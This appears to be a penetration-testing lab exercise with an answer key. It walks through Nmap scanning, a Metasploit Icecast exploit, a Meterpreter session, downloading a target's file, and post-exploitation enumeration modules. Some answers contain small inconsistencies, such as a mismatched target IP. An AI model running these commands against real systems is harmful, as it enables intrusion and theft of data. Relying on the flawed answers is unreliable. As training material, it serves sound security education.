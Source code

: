 Instructions
You've been provided full access to the network and are getting ping responses from the CEO’s workstation.

Perform a service and version scan using Nmap to determine which services are up and running:

Run the Nmap command that performs a service and version scan against the target.

    Answer: nmap -sV 192.168.0.20

From the previous step, we see that the Icecast service is running. Let's start by attacking that service. Search for any Icecast exploits:

Run the SearchSploit commands to show available Icecast exploits.

    Answer: searchsploit Icecast

Now that we know which exploits are available to us, let's start Metasploit:

Run the command that starts Metasploit:

    Answer: msfconsole

Search for the Icecast module and load it for use.

Run the command to search for the Icecast module:

    Answer: search Icecast

Run the command to use the Icecast module:

Note: Instead of copying the entire path to the module, you can use the number in front of it.

    Answer: #0

Set the RHOST to the target machine.

Run the command that sets the RHOST:

    Answer: set RHOST 192.168.09.20

Run the Icecast exploit.

Run the command that runs the Icecast exploit.

      Answer: exploit

Run the command that performs a search for the secretfile.txt on the target.

    Answer: search -f secretfile.txt

You should now have a Meterpreter session open.

Run the command to performs a search for the recipe.txt on the target:

    Answer: search -f recipe.txt

Bonus: Run the command that exfiltrates the recipe*.txt file:

    Answer: download c:\Users\IEUser\Documents\Drinks.recipe.txt

You can also use Meterpreter's local exploit suggester to find possible exploits.

Note: The exploit suggester is just that: a suggestion. Keep in mind that the listed suggestions may not include all available exploits.
run post/multi/recon/local_exploit_suggester

Bonus
A. Run a Meterpreter post script that enumerates all logged on users.

    Answer: run post/windows/gather/enum_logged_on_users

B. Open a Meterpreter shell and gather system information for the target.

    Answer: shell

C. Run the command that displays the target's computer system information:

    Answer: sysinfo
